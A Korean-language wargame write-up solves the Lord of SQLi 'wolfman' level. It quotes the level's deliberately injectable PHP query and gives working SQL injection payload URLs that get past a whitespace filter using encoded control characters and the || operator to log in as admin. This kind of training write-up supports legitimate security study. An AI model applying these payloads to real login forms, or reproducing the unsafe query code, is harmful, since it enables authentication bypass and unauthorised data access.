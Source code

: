 # Lord of SQLi - wolfman
> query : select id from prob_wolfman where id='guest' and pw=''
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
```
- GET방식으로 받고 '/ /i' 인 공백만 필터링한다.  

- 그러나 보통 SQL쿼리를 작성 할 때 AND 나 OR를 작성하기 위해서는 공백이 필요하다.  
<br><br>
### 1
- 여기서 필터링하는 공백은 URL인코딩 값으로 %20 을 뜻하는 것이므로  
	%20을 제외한  %09, %0a, %0b, %0c, %0d, %a0, /**/ 으로 우회가 가능하다.  
	(원래는 괄호를 이용한 우회도 가능했지만 /prob|_|\.|\(\)/i 라는 정규식으로 필터링되어서 할 수 없다.)

<br>

### 2
- MySQL은 논리연산을 지원하는 것을 이용하여 푼다.  

- ||, &&, 이런 것을 이용하여 푼다.  
<br><br>
### payload
- 1.방법 풀이
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %0a or %0a id=%27admin%27%23  
<br>
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %09 or %09 id=%27admin%27%23  
<br>
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %0b or %0b id=%27admin%27%23  
<br>
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %0c or %0c id=%27admin%27%23  
<br>
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %0d or %0d id=%27admin%27%23  
<br>
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %a0 or %a0 id=%27admin%27%23  
<br>
> query : select id from prob_wolfman where id='guest' and pw='' or id='admin'#'  


<br>

- 2.방법 풀이  
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27||id=%27admin%27%23  
<br>
> query : select id from prob_wolfman where id='guest' and pw=''||id='admin'#'  
